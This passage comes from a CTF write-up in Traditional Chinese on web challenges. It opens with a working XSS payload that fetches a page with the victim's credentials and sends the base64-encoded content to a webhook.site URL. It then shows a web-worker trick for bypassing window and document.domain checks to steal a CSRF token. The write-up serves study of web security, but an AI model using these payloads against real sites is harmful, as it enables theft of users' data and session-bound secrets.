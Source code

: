 ```
<html>
<body>
<img src=http://httpstat.us/200?sleep=5000>
<script>
var x= window.open('http://web:3000/8be526fd-e193-436c-a431-84141a0903b9','fetch(`http://web:8000/`,{credentials: "same-origin"}).then(x=>x.text()).then(x=>fetch(`https://webhook.site/603ab026-5a65-432f-a894-5d981fd24198?flag=${btoa(x)}`))');
setTimeout(function(){
x.location='http://web:8000/8be526fd-e193-436c-a431-84141a0903b9#jj'
},500)

</script>


</html>
```

當時完全沒想到可以這樣，真是厲害。

## Another Secure Store Note (7 solves)

這題有個改名字的功能，名字會直接反映在畫面上，是一個 free XSS，但問題是改名字會需要檢查 CSRF token，有一個叫做 `getSettings.js` 的檔案裡面會有 CSRF token：

``` js
function isInWindowContext() {
  const tmp = self;
  self = 1; // magic
  const res = (this !== self);
  self = tmp;
  return res;
}

// Ensure it is in window context with correct domain only :)
// Setting up variables and UI
if (isInWindowContext() && document.domain === '<%= domain %>') {
  const urlParams = new URLSearchParams(location.search);
  try { document.getElementById('error').innerText = urlParams.get('error'); } catch (e) {}
  try { document.getElementById('message').innerText = urlParams.get('message'); } catch (e) {}
  try { document.getElementById('_csrf').value = '<%= csrf %>'; } catch (e) {}
}
```

這邊會檢查是不是在 window context 以及 `document.domain`，看到這邊我瞬間想起了 2022 年 10 月的 Intigriti XSS challenge，作者 writeup 在這：https://github.com/0xGodson/blogs/blob/master/_posts/2022-10-14-intigriti-oct-xss-challenge-author-writeup.md

裡面有一個部分是用 web worker 來繞過對 `window.location.href` 以及 `document.domain` 的檢查，像是這樣：

``` js
// worker.js

window = {}
window.location = {}
document = {}

// send the secret to top window!
window.saveSecret = function(msg){  
  self.postMessage(msg)  
}

window.location.href = "https://challenge-1022.intigriti.io/challenge/create";
document.domain = "challenge-1022.intigriti.io";

// we can use importScripts function from API to import external scripts!
importScripts("https://challenge-1022.intigriti.io/challenge/getSecret.js");
```